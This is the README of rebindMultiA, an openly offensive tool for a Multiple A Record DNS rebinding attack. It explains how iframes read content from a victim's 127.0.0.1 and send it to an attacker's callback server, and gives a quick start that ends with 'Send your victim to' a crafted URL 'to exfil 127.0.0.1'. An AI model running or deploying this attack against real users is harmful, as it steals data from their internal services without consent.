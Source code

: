 ## rebindMultiA
`rebindMultiA` is a tool to perform a Multiple A Record rebind attack. 

`rebindmultia.com` is a domain that I've set up to assist with these attacks. It makes every IP its own authoritative nameserver for the domain `[IP].ns.rebindmultia.com`. For example, `13.33.33.37.ns.rebindmultia.com`'s authoritative nameserver is `13.33.33.37.ip.rebindmultia.com` which resolves (as you might have guessed) to `13.33.33.37`. 

## Multiple A Record Rebind Attack
The MultiA Record Rebind attack is a variant of DNS Rebinding that weaponizes an attacker's ability to respond with two IP address in response to a DNS request and the browser's tendency to fallback to the second IP in the DNS response when the first one doesn't respond. In this attack, the attacker will configure a malicious DNS server and two malicious HTTP servers. The DNS server will respond with two A records:
```
127.0.0.1.target.13.33.33.37.ns.rebindmultia.com. 0 IN A 13.33.33.37
127.0.0.1.target.13.33.33.37.ns.rebindmultia.com. 0 IN A 127.0.0.1
```
The victim browser will then connect to the first IP and begin interacting with the attacker's first malicious HTTP server. This server will respond with a page that contains two iframes, one to `/steal` and one to `/rebind`. The `/steal` iframe will load up a malicious page to reach into the second iframe and grab the content. The `/rebind` endpoint, when hit, will issue a 302 redirect to `/` and kill the first malicious HTTP server. As a result, when the browser reaches back out to the attacker's HTTP server, it will be met with a closed port. **As such, it will fallback to the second IP**. Once the target content has been loaded in the second iframe, the first iframe can reach into it, steal the data, and exfiltrate it to the attacker's second malicious HTTP server - the callback server.

**This attack only works in a Windows environment.** Linux and Mac will default to the private IP first and the attacker's server will never be queried. 

## Graphic + Explaination
![Screenshot](rebindMultiA.jpg)
1. The browser resolves the host `127.0.0.1.target.13.33.33.37.ns.rebindmultia.com`.
2. The DNS server (included in `server.py`) parses the requested dns name and returns two A records: `13.33.33.37` and `127.0.0.1`.
3. The victim's browser reaches out the attacker's malicious HTTP server (included in `server.py`) and loads the `/parent` page which has two iframes.
4. The victim's browser loads `/steal` from the attacker's malicious HTTP server.
5. The victim's browser loads `/rebind` which results in a 302 redirect to `/` (the HTTP server will exit after this request).
6. The victim's browser redirect's to `/` per the `302` from the attacker's server.
7. The victim's browser attempts to load `/` from the attacker's (now dead) HTTP server, but fails to do so. 
8. The browser then shifts to the **second** IP in the DNS cache and resolves the hostname to `127.0.0.1`. It then reaches out to that server and loads up the page in the iframe.
9. The attacker's `steal` iframe reaches into the newly loaded second iframe and grabs the content.
10. The attacker's `steal` iframe then sends the results back to the attacker's callback server.

## Usage
```
pip3 install -r requirements.txt
python3 server.py --help
```
```
usage: server.py [-h] [-p PORT] [-c CALLBACK_PORT] [-d DNS_PORT] [-f FILE] [-l LOCATION]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Specify port to attack on targetIp. Default: 80
  -c CALLBACK_PORT, --callback-port CALLBACK_PORT
                        Specify the callback HTTP server port. Default: 31337
  -d DNS_PORT, --dns-port DNS_PORT
                        Specify the DNS server port. Default: 53
  -f FILE, --file FILE  Specify the HTML file to display in the first iframe.(The "steal" iframe). Default: steal.html
  -l LOCATION, --location LOCATION
                        Specify the location of the data you'd like to steal on the target. Default: /
```

If you get this error:
```
┬─[justin@RhynoDroplet:~/p/rebindMultiA]─[14:26:24]─[G:master=]
╰─>$ python3 server.py

Traceback (most recent call last):
  File "server.py", line 2, in <module>
    from http.server import HTTPServer, BaseHTTPRequestHandler, ThreadingHTTPServer
ImportError: cannot import name 'ThreadingHTTPServer'
```
Then you need to use a more up-to-date version of Python. Python 3.7+. 

## Quick Start
This must be executed from publically accessible IP.
```
git clone https://github.com/Rhynorater/rebindMultiA
cd rebindMutliA
pip3 install -r requirements.txt
echo "Send your victim to http://127.0.0.1.target.`curl -s http://ipinfo.io/ip`.ns.rebindmultia.com/parent to exfil 127.0.0.1"
sudo python3 server.py
```
